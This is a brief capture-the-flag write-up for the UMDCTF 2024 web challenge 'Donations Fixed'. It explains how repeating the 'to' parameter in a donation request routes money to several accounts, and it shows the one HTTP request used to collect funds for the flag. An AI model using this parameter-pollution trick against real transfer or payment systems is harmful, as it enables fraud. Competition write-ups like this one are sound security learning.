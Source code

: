 ```yaml
---
title: "umdctf2024 - Donations Fixed"
date: 2024-04-28T19:18:00-03:00
draft: false
description: ""
tags: ["web", "umdctf"]
---
```



This is the harder version of [donations](/writeups/umdctf-2024-donations-fixed), it's the same challenge, but you can't donate negative amounts this time.

After playing with it for a while, I realized that the solution was probably to find a way to donate money to your user, bypassing that Jeff Bezos check. So I tested adding more user id's in the `to` parameter and the money went to them.

So the solution was to create users, and donate all of their money to a user which will retrieve the flag.

```http
POST /api/donate HTTP/2
Host: donations2-api.challs.umdctf.io
Cookie: session=...
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

to=lisanalgaib&to=gbrls&currency=999
```
